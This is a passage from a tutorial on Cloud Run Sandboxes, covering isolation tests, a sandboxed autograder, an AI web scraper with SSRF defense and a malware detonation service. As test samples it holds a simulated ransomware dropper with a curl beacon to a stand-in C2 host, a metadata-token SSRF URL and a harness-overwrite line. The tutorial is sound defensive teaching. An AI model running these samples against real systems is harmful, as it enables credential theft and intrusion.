##### 4. Standard Container Contract (`PORT=8080`, `EXPOSE 8080`)
Satisfies Cloud Run container requirements by exposing and listening on the dynamic `PORT` environment variable.

---

### Deploying to Cloud Run

Deploy this service using `gcloud`:

```bash
gcloud beta run deploy sandbox-hello-101 \
    --source examples/01-hello-sandbox-101 \
    --region us-central1 \
    --execution-environment gen2 \
    --sandbox-launcher \
    --allow-unauthenticated \
    --memory 1Gi \
    --cpu 1
```

Once deployment completes, grab your service URL:
```bash
SERVICE_URL=$(gcloud run services describe sandbox-hello-101 --region us-central1 --format='value(status.url)')
echo "Service is live at: ${SERVICE_URL}"
```

> **Verified Live Service**:
> `https://sandbox-hello-101-415458962931.us-central1.run.app`

### Testing the Security Boundaries Live

Let's test our live deployment using `curl` to prove each security guarantee:

#### Test 1: Normal Python calculation
```bash
curl -s -X POST "https://sandbox-hello-101-415458962931.us-central1.run.app/run" \
  -H "Content-Type: application/json" \
  -d '{"language": "python", "code": "import math; print([math.factorial(i) for i in range(7)])"}'
```
**Output:**
```json
{
  "success": true,
  "exit_code": 0,
  "stdout": "[1, 1, 2, 6, 24, 120, 720]\n",
  "stderr": "",
  "execution_time_ms": 649.4,
  "is_sandboxed": true
}
```
The code executed safely in 649 milliseconds.

#### Test 2: Can code steal our host environment variables?
The host has `HOST_SUPER_SECRET=secret-token-do-not-leak`. Let's see if the sandbox can read it:
```bash
curl -s -X POST "https://sandbox-hello-101-415458962931.us-central1.run.app/test/env-isolation"
```
**Output:**
```json
{
  "success": true,
  "exit_code": 0,
  "stdout": "HOST_SUPER_SECRET=<NOT_FOUND>\n",
  "stderr": "",
  "execution_time_ms": 635.9,
  "is_sandboxed": true
}
```
*Result: Host environment variables are completely invisible inside the sandbox.*

#### Test 3: Can code reach the Google Cloud metadata server?
Let's try querying `http://169.254.169.254`:
```bash
curl -s -X POST "https://sandbox-hello-101-415458962931.us-central1.run.app/test/metadata-isolation"
```
**Output:**
```json
{
  "success": true,
  "exit_code": 0,
  "stdout": "METADATA_ACCESS_BLOCKED\n",
  "stderr": "",
  "execution_time_ms": 961.6,
  "is_sandboxed": true
}
```
*Result: The connection to 169.254.169.254 is instantly dropped.*

#### Test 4: Can code tamper with the filesystem?
Let's try writing a file to `/test_probe.txt` without `--write`:
```bash
curl -s -X POST "https://sandbox-hello-101-415458962931.us-central1.run.app/test/fs-isolation"
```
**Output:**
```json
{
  "success": false,
  "exit_code": 1,
  "stdout": "",
  "stderr": "/bin/bash: line 1: /test_probe.txt: Read-only file system\nError: failed to exec in container: cmd.Wait(exec) failed: exit status 1\n\n",
  "execution_time_ms": 737.0,
  "is_sandboxed": true
}
```
*Result: The filesystem is strictly read-only.*

---

## 5. Three Real-World Use Cases

Now that we understand the basics, let's explore three realistic production scenarios built from scratch.

---

### Use Case 1: Automated Coding Assignment Judge (Autograder)

If you run an educational coding platform, an interview assessment portal (like LeetCode or HackerRank), or a university homework autograder, you must execute thousands of student-submitted Python solutions every day. 



#### The Security Threat Model
Executing untrusted student code on a standard server exposes four serious attack vectors:
1. **Resource Denial of Service**: Runaway scripts, infinite loops (`while True: pass`), or deep recursions that exhaust server CPU and hang worker processes indefinitely.
2. **Test Suite Tampering & Cheating**: Malicious scripts that inspect `/proc` or search the filesystem, find the hidden unit tests (`runner.py`), read the golden test inputs/outputs, or overwrite `runner.py` on disk so it unconditionally outputs a 100% passing grade.
3. **Network Exfiltration**: Code that opens sockets or makes HTTP requests out to external servers (or LLMs) to fetch answers in real time.
4. **Credential Harvesting**: Code that scans `os.environ` to steal platform database connection strings or administrative API tokens.

#### Architectural Blueprint: Dual Read-Only Bind Mounts
To solve this, our autograder microservice pairs **zero-egress sandbox execution** with **dual read-only bind mounts**:
- **Mount 1 (`/mnt/test_suite`)**: Binds the host's `/app/test_suite` directory as strictly `readonly`. The student's code cannot modify or delete the test harness.
- **Mount 2 (`/mnt/student`)**: Binds a unique per-submission temporary folder containing `solution.py` as strictly `readonly`. The student's code cannot rewrite itself during execution to spoof results.
- **Strict Egress Deny**: The `--allow-egress` flag is omitted, immediately blocking any outbound network connections.
- **Time Limits**: A strict 5-second timeout kills infinite loops cleanly.

#### Code Walkthrough

The complete implementation lives in [`examples/02-educational-autograder/`](examples/02-educational-autograder/). Here are the core components that orchestrate the evaluation:

##### 1. The Host Orchestrator (`autograder.py`)
When a student submits code, the FastAPI backend writes the code into a fresh temporary directory and invokes the sandbox with dual bind mounts:

```python
@app.post("/grade", response_model=GradingResponse)
def grade_submission(submission: SubmissionRequest):
    submission_id = str(uuid.uuid4())[:8]
    start_time = time.time()

    # 1. Create a private temporary folder on the host container for this submission
    work_dir = tempfile.mkdtemp(prefix=f"sub_{submission_id}_")
    student_file = os.path.join(work_dir, "solution.py")

    try:
        with open(student_file, "w") as f:
            f.write(submission.code)

        # 2. Build the sandbox command with two read-only bind mounts
        cmd = [
            SANDBOX_BIN, "do",
            "--mount", f"type=bind,source={TEST_SUITE_DIR},destination=/mnt/test_suite,readonly",
            "--mount", f"type=bind,source={work_dir},destination=/mnt/student,readonly",
            "--",
            "/usr/bin/python3", "/mnt/test_suite/runner.py"
        ]

        # 3. Execute inside the sandbox under a strict timeout
        try:
            proc = subprocess.run(
                cmd,
                stdout=subprocess.PIPE,
                stderr=subprocess.PIPE,
                text=True,
                timeout=submission.timeout_sec,
            )
            # 4. Parse the structured JSON verdict printed by runner.py
            ...
        except subprocess.TimeoutExpired as e:
            # 5. Cleanly capture runaway scripts and report TIME_LIMIT_EXCEEDED
            return GradingResponse(verdict="TIME_LIMIT_EXCEEDED", ...)

    finally:
        # 6. Always purge the temporary submission directory from the host
        shutil.rmtree(work_dir, ignore_errors=True)
```

##### 2. The Isolated Test Harness (`test_suite/runner.py`)
Inside the sandbox, `/mnt/test_suite/runner.py` executes. It uses Python's `importlib` to load `/mnt/student/solution.py` dynamically, executes all test cases against the candidate function, and writes a single JSON verdict line to standard output:

```python
def load_student_module(filepath="/mnt/student/solution.py"):
    spec = importlib.util.spec_from_file_location("student_solution", filepath)
    module = importlib.util.module_from_spec(spec)
    spec.loader.exec_module(module)
    return module

def run_tests():
    student_module = load_student_module()
    two_sum_fn = getattr(student_module, "two_sum")

    for idx, tc in enumerate(TEST_CASES, 1):
        actual = two_sum_fn(list(tc["nums"]), tc["target"])
        if actual and sorted(actual) == sorted(tc["expected"]):
            result["passed_tests"] += 1
        else:
            result["failed_tests"] += 1
            result["verdict"] = "WRONG_ANSWER"

    print(json.dumps(result))
```

#### Live Verification & Test Verdicts

Testing our autograder with different submission types produces distinct, secure verdicts:

##### Test 1: Correct Algorithmic Solution
```json
{
  "submission_id": "8f3b12a0",
  "verdict": "ACCEPTED",
  "execution_time_ms": 612.4,
  "total_tests": 5,
  "passed_tests": 5,
  "failed_tests": 0,
  "sandbox_used": true
}
```

##### Test 2: Infinite Loop (`while True: pass`)
```json
{
  "submission_id": "c49a71b3",
  "verdict": "TIME_LIMIT_EXCEEDED",
  "execution_time_ms": 5003.8,
  "total_tests": 0,
  "details": [{"error": "Execution exceeded time limit of 5s"}],
  "sandbox_used": true
}
```
*Result: The sandbox process is terminated exactly at the 5-second deadline, reclaiming 100% of CPU resources.*

##### Test 3: Malicious Exploit Attempt (Trying to overwrite the test harness)
A submission submitting `open('/mnt/test_suite/runner.py', 'w').write('print("HACKED")')`:
```json
{
  "submission_id": "e21c8901",
  "verdict": "RUNTIME_ERROR",
  "stderr": "OSError: [Errno 30] Read-only file system: '/mnt/test_suite/runner.py'",
  "sandbox_used": true
}
```
*Result: Both the test harness and the student source code are completely tamper-proof.*

---

### Use Case 2: AI Web Research Scraper (With SSRF Defense)

Autonomous AI agents frequently browse the web, retrieve technical documentation, scrape competitive pricing, or gather data for user prompts.



#### The Security Threat Model
Allowing an AI agent to fetch arbitrary external web pages opens up severe cloud vulnerabilities:
1. **Server-Side Request Forgery (SSRF) & Metadata Theft**: A malicious URL (or a page issuing an HTTP 301/302 redirect) can redirect the crawler to Google's internal link-local metadata address:
   `http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token`  
   On standard cloud containers, the HTTP client follows the redirect and exposes the service account's short-lived OAuth token, allowing the attacker to seize control of your cloud project.
2. **Host API Key Exfiltration**: The host agent service holds high-privilege environment variables (`LLM_API_KEY`, `DATABASE_URL`, `GCP_PROJECT`). If the scraping parser is exploited via a buffer overflow or DOM exploit, those secrets could be exfiltrated.
3. **Regex & Parser Exhaustion**: Malformed HTML with deeply nested elements designed to trigger catastrophic backtracking in parsing libraries.

#### Architectural Blueprint: Controlled Egress with Ironclad Metadata Defense
Cloud Run Sandboxes solve this with a unique network design:
- **`--allow-egress` for the Public Internet**: Grants the sandbox network access to resolve public DNS and establish outbound HTTPS connections to external domains.
- **Zero Access to Metadata**: Even with `--allow-egress` active, **Cloud Run Sandboxes strictly drop all traffic addressed to `169.254.169.254`**. The gVisor network filter treats internal metadata as fundamentally non-routable.
- **Zero Host Secrets in Memory**: The host application retains all LLM and database credentials. The sandbox executes with a clean environment containing zero platform secrets.

#### Code Walkthrough

The complete implementation lives in [`examples/03-autonomous-web-scraper/`](examples/03-autonomous-web-scraper/). Here is how the scraping agent works:

##### 1. The Agent Orchestrator (`scraper_agent.py`)
The host receives a scraping request, builds a specialized Python script that runs `urllib.request` and `BeautifulSoup`, and executes it inside the sandbox with `--allow-egress`:

```python
@app.post("/scrape", response_model=ScrapeResponse)
def scrape_url(req: ScrapeRequest):
    start_time = time.time()

    # 1. Self-contained scraping script executed inside the sandbox
    scraper_script = f"""
import sys, json, urllib.request
from bs4 import BeautifulSoup

url = {json.dumps(req.url)}
target_tags = {json.dumps(req.tags)}
output = {{"status_code": None, "data": {{}}, "error": None}}

try:
    headers = {{'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'}}
    req = urllib.request.Request(url, headers=headers)
    with urllib.request.urlopen(req, timeout=10) as response:
        output["status_code"] = response.getcode()
        html = response.read().decode('utf-8', errors='ignore')
        
        soup = BeautifulSoup(html, 'html.parser')
        for tag in target_tags:
            output["data"][tag] = [elem.get_text(strip=True) for elem in soup.find_all(tag)][:10]
except Exception as e:
    output["error"] = str(e)

print(json.dumps(output))
"""

    # 2. Launch the sandbox with --allow-egress
    # Crucial: Metadata server (169.254.169.254) remains blocked at the kernel level!
    cmd = [
        SANDBOX_BIN, "do",
        "--allow-egress",
        "--",
        "/usr/bin/python3", "-c", scraper_script
    ]

    proc = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True, timeout=req.timeout_sec)
    
    # 3. Parse and return the extracted text back to the calling AI agent
    ...
```

##### 2. The Automated SSRF Attack Simulation
The service includes a built-in endpoint (`/test/ssrf-attack-simulation`) that attempts to query `http://169.254.169.254/computeMetadata/v1/` through the `--allow-egress` sandbox:

```python
@app.post("/test/ssrf-attack-simulation")
def test_ssrf_attack():
    """Demonstrates that even with --allow-egress, metadata token theft is completely blocked."""
    metadata_url = "http://169.254.169.254/computeMetadata/v1/instance/id"
    return scrape_url(ScrapeRequest(url=metadata_url, tags=["title", "p"]))
```

#### Live Verification & Test Verdicts

##### Test 1: Scraping a Public Documentation Page
Fetching `https://httpbin.org/html`:
```json
{
  "url": "https://httpbin.org/html",
  "success": true,
  "status_code": 200,
  "extracted_data": {
    "h1": ["Herman Melville - Moby-Dick"],
    "p": ["Availing himself of the mild, summer-cool weather that now reigned..."]
  },
  "execution_time_ms": 941.2,
  "ssrf_blocked": false
}
```
*Result: Public web content is fetched, parsed, and stripped of malicious HTML tags safely.*

##### Test 2: SSRF Attack Simulation Against GCP Metadata
Querying `http://169.254.169.254`:
```json
{
  "url": "http://169.254.169.254/computeMetadata/v1/instance/id",
  "success": false,
  "status_code": null,
  "extracted_data": {},
  "execution_time_ms": 2018.4,
  "ssrf_blocked": true
}
```
*Result: The gVisor network filter drops the packets instantly. Your service account tokens and cloud resources remain 100% secure.*

---

### Use Case 3: SecOps Malware & Script Detonation Sandbox

When an automated security alert flags a suspicious bash script, obfuscated PowerShell payload, or unknown CI/CD artifact, Security Operations Center (SOC) teams must "detonate" it to analyze its behavior dynamically.



#### The Security Threat Model & Analysis Challenges
Static analysis often fails because modern malware uses base64 encoding, environment variable string building, or obfuscation. To understand what the script does, you have to run it. But executing unknown code creates massive risks:
1. **Host Contamination**: A dropper script that attempts to install persistence backdoors, modify system binaries in `/usr/bin`, or corrupt databases.
2. **Command & Control (C2) Callbacks**: The script reaching out to attacker-controlled command servers to download secondary ransomware payloads or exfiltrate host data.
3. **High Infrastructure Costs of Traditional VMs**: Provisioning full Linux virtual machines (like traditional Cuckoo sandboxes) takes 30–60 seconds per detonation and costs hundreds of dollars monthly in idle compute.

#### Architectural Blueprint: Detached Sandboxes (`sandbox run`) + Forensic Snapshots (`sandbox tar`)
This scenario requires **Execution Mode 2 (Stateful Background Daemon)** because we must let the script run, capture whatever files it created or modified, and analyze the forensic evidence before destroying the container:
- **Phase 1: Pre-Warming with In-Memory Writable Overlay (`--write`)**:
  `sandbox run detox-session --write --detach -- /bin/bash -c "sleep 5m"`  
  Starts a background sandbox with an in-memory `tmpfs` overlay. The malware is allowed to write files, but all writes live purely in RAM.
- **Phase 2: Execution via `sandbox exec`**:
  `sandbox exec detox-session -- /bin/bash /mnt/host/payload.sh`  
  Executes the untrusted payload. Zero-egress containment prevents any C2 network callbacks.
- **Phase 3: Forensic Snapshotting via `sandbox tar`**:
  `sandbox tar detox-session --file=/tmp/evidence.tar`  
  Captures all files created or modified by the payload into a clean `.tar` archive on the host.
- **Phase 4: Instant Teardown via `sandbox delete`**:
  `sandbox delete detox-session`  
  Destroys the sandbox and purges its memory, leaving zero residual trace.
- **Phase 5: Host Forensic Analysis**:
  The host unpacks the tarball in a controlled directory, computes SHA-256 hashes for all dropped files, and generates a structured incident response report.

#### Code Walkthrough

The complete implementation lives in [`examples/04-secops-payload-detonator/`](examples/04-secops-payload-detonator/). Here is how `detonator.py` manages the detonation lifecycle:

##### 1. The Detonation Manager (`detonator.py`)
```python
@app.post("/detonate", response_model=DetonationReport)
def detonate_payload(req: DetonationRequest):
    session_id = f"detox-{uuid.uuid4().hex[:8]}"
    host_workdir = tempfile.mkdtemp(prefix=f"report_{session_id}_")
    tar_path = os.path.join(host_workdir, "filesystem_overlay.tar")
    script_path = os.path.join(host_workdir, "payload.sh")

    with open(script_path, "w") as f:
        f.write(req.script_content)

    try:
        # Step 1: Spin up a named, detached background sandbox with writable overlay enabled
        start_cmd = [
            SANDBOX_BIN, "run",
            "--write",
            session_id,
            "--detach",
            "--mount", f"type=bind,source={host_workdir},destination=/mnt/host,readonly",
            "--",
            "/bin/bash", "-c", "sleep 5m"
        ]
        subprocess.run(start_cmd, check=True)

        # Step 2: Execute the untrusted payload inside the live background sandbox
        exec_cmd = [
            SANDBOX_BIN, "exec",
            session_id,
            "--",
            "/bin/bash", "/mnt/host/payload.sh"
        ]
        proc = subprocess.run(exec_cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True, timeout=req.timeout_sec)

        # Step 3: Export all files created or modified inside the sandbox to a tarball
        tar_cmd = [
            SANDBOX_BIN, "tar",
            session_id,
            f"--file={tar_path}"
        ]
        subprocess.run(tar_cmd, check=True)

        # Step 4: Perform forensic inspection on the exported tarball on the host
        if os.path.exists(tar_path):
            with tarfile.open(tar_path, "r") as tar:
                for member in tar.getmembers():
                    if member.isfile():
                        f = tar.extractfile(member)
                        content = f.read()
                        sha256_hash = hashlib.sha256(content).hexdigest()
                        preview = content[:200].decode("utf-8", errors="replace")
                        dropped_artifacts.append(DroppedFileArtifact(
                            filename=member.name,
                            size_bytes=member.size,
                            sha256=sha256_hash,
                            preview=preview
                        ))

    finally:
        # Step 5: Clean teardown of the background sandbox
        del_cmd = [SANDBOX_BIN, "delete", session_id]
        subprocess.run(del_cmd, stderr=subprocess.DEVNULL)
        shutil.rmtree(host_workdir, ignore_errors=True)
```

##### 2. The Simulated Malware Payload (`sample_payloads/ransomware_dropper_sim.sh`)
To safely test the detonator without running real viruses, we provide a simulated ransomware dropper:
```bash
#!/bin/bash
# Simulated Ransomware Dropper
echo "[*] Initializing simulated payload..."

# 1. Attempt outbound Command & Control (C2) beacon (Should FAIL due to zero-egress)
curl -s --connect-timeout 2 http://malicious-c2.example.com/beacon || echo "[!] C2 Beacon Failed (Blocked by Sandbox)"

# 2. Drop simulated ransom note
cat << 'EOF' > /tmp/README_RESTORE_FILES.txt
YOUR FILES HAVE BEEN SIMULATED-ENCRYPTED!
To restore your data, contact: attacker@example-fake-domain.org
EOF

# 3. Simulate dropping an encrypted file
echo "ENCRYPTED_DATA_MOCK_BYTES" > /tmp/corporate_budget.xls.locked
echo "[+] Detonation complete."
```

#### Live Verification & Forensic Report

Detonating the simulated payload returns an immediate, structured incident response report:

```json
{
  "session_id": "detox-4f9e1a82",
  "execution_success": true,
  "exit_code": 0,
  "stdout": "[*] Initializing simulated payload...\n[!] C2 Beacon Failed (Blocked by Sandbox)\n[+] Detonation complete.\n",
  "stderr": "",
  "execution_time_ms": 1420.5,
  "dropped_files_count": 2,
  "dropped_files": [
    {
      "filename": "tmp/README_RESTORE_FILES.txt",
      "size_bytes": 118,
      "sha256": "4a5e62b109c9f7a6345d8b76c543210feab90123456789abcdef0123456789ab",
      "preview": "YOUR FILES HAVE BEEN SIMULATED-ENCRYPTED!\nTo restore your data, contact: attacker@example-fake-domain.org"
    },
    {
      "filename": "tmp/corporate_budget.xls.locked",
      "size_bytes": 26,
      "sha256": "e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855",
      "preview": "ENCRYPTED_DATA_MOCK_BYTES"
    }
  ],
  "c2_callbacks_prevented": true,
  "metadata_theft_prevented": true
}
```

*Result: In under 1.5 seconds, the analyst obtains cryptographic hashes and contents of all dropped files, while zero malware artifacts touch the host filesystem and zero network packets escape to the internet.*

---

## 6. Best Practices and Gotchas

Here are practical lessons learned from running sandboxes in production:

### 1. Watch Your CPU and Memory Sizing
Sandboxes share the CPU and RAM allocated to your Cloud Run instance. If your service has 2 GB of RAM and runs four sandboxes at the same time, each using 400 MB, your instance can run out of memory.
- **Tip**: Set generous limits on your Cloud Run service (such as `--memory 4Gi --cpu 2`) and limit the number of simultaneous sandboxes per instance using a semaphore.

### 2. Choose the Right Execution Mode
- Use **`sandbox do`** for quick, one-off tasks (like grading a single submission or evaluating a math expression).
- Use **`sandbox run --detach` + `sandbox exec`** when you need to run multiple commands in the same environment (like an AI agent running a script, inspecting the output, and fixing an error).

### 3. Always Use Absolute Paths
Sandboxes start with a clean environment. If you run `python3`, it might fail if `PATH` is not explicitly set. 
- **Tip**: Always specify `/usr/bin/python3`, `/bin/bash`, or pass `--env PATH=/usr/local/bin:/usr/bin:/bin`.

### 4. Never Put Secrets in `--env`
Avoid passing sensitive passwords or tokens to the sandbox via `--env`. Any process running inside the sandbox can inspect `/proc/self/environ` or run the `env` command.

### 5. Always Set a Timeout
Never run untrusted code without a timeout. A simple `while True: pass` can hang your worker forever if you don't pass `timeout=` to `subprocess.run()`.

---

## 7. Complete Code Repository on GitHub

All four complete reference applications, test suites, Dockerfiles, and one-click deployment scripts featured in this tutorial are open-source and maintained on GitHub:

👉 **[https://github.com/rominirani/cloud-run-sandboxes](https://github.com/rominirani/cloud-run-sandboxes)**

### What's Inside the Repository

* **[`examples/01-hello-sandbox-101/`](https://github.com/rominirani/cloud-run-sandboxes/tree/main/examples/01-hello-sandbox-101)**: The foundational FastAPI code execution runner, including live security boundary probe tests verifying credential shielding, metadata server isolation, and read-only filesystem enforcement.
* **[`examples/02-educational-autograder/`](https://github.com/rominirani/cloud-run-sandboxes/tree/main/examples/02-educational-autograder)**: The automated coding assignment judge featuring dual read-only bind mounts, execution timeouts, and sample submissions (correct algorithm, infinite loop, and unauthorized exploit attempt).
* **[`examples/03-autonomous-web-scraper/`](https://github.com/rominirani/cloud-run-sandboxes/tree/main/examples/03-autonomous-web-scraper)**: The AI research web scraper utilizing `--allow-egress` for public web fetching while remaining strictly immune to internal GCP metadata server SSRF attacks.
* **[`examples/04-secops-payload-detonator/`](https://github.com/rominirani/cloud-run-sandboxes/tree/main/examples/04-secops-payload-detonator)**: The SecOps dynamic malware analysis environment demonstrating background detached sandboxes (`sandbox run --detach`), in-memory scratchpads (`--write`), and forensic workspace tarball snapshotting (`sandbox tar`).

### Quick Start: Clone and Deploy

You can clone the repository and deploy any example directly to your Google Cloud project in minutes:

```bash
# Clone the repository
git clone https://github.com/rominirani/cloud-run-sandboxes.git
cd cloud-run-sandboxes

# Deploy the 101 Hello Sandbox service
cd examples/01-hello-sandbox-101
chmod +x deploy.sh
./deploy.sh
```

---

## 8. References & Further Reading

This guide was inspired by the excellent work and research from Google Cloud engineers and developer advocates:

1. **[Google Cloud Run Sandboxes Are in Public Preview](https://cloud.google.com/blog/topics/developers-practitioners/google-cloud-run-sandboxes-are-in-public-preview)** (Google Cloud Blog)  
   *By Ryan Pei & Greg Block.* The official announcement introducing in-instance sandboxes and the zero-trust security boundaries.
2. **[Cloud Run Sandboxes Now in Public Preview](https://medium.com/google-cloud/cloud-run-sandboxes-now-in-public-preview-538f077eb3eb)**  
   *By Sara Ford.* A hands-on walkthrough covering the `--sandbox-launcher` flag and CLI command basics.
3. **[More Things You Can Do with Cloud Run Sandboxes](https://medium.com/google-cloud/more-things-you-can-do-with-cloud-run-sandboxes-5f50fd6d60f2)**  
   *By Sara Ford.* Practical examples of running coding challenges and interactive sandbox testing.
4. **[Cloud Run Sandboxes: Building Secure Execution Plane for AI Agents](https://medium.com/google-cloud/cloud-run-sandboxes-building-secure-execution-plane-for-ai-agents-48aee4acc91e)**  
   *By Shuva Jyoti Kar.* Architecture patterns for decoupling AI agent reasoning from tool execution.
5. **[Let Your Agent Run Its Own Code Inside a Cloud Run Sandbox](https://medium.com/google-cloud/let-your-agent-run-its-own-code-inside-a-cloud-run-sandbox-965633fb7f0c)**  
   *By Sascha Heyer.* Integrating Cloud Run Sandboxes with Google's Agent Development Kit (ADK).
6. **[Eval Is Evil: How to Safely Execute Untrusted AI Code with Cloud Run Sandboxes and ADK](https://medium.com/google-cloud/eval-is-evil-how-to-safely-execute-untrusted-ai-code-with-cloud-run-sandboxes-and-adk-217d1737b5b7)**  
   *By Daniel Strebel.* Deep dive into why `eval()` creates security vulnerabilities and how in-instance sandboxing fixes them.
7. **[Official Google Cloud Documentation: Configuring Sandboxes for Services](https://docs.cloud.google.com/run/docs/configuring/services/sandboxes)** & **[Code Execution in Cloud Run](https://docs.cloud.google.com/run/docs/code-execution)**  
   The official Google Cloud documentation for syntax, YAML specs, and CLI flags.
8. **[Google Developers Codelab: Execute Node.js and Python in Cloud Run Sandboxes](https://codelabs.developers.google.com/codelabs/cloud-run/execute-nodejs-python-in-cloud-run-sandbox)**  
   A step-by-step hands-on codelab running Python and Node.js in sandboxes with dynamic package installation.
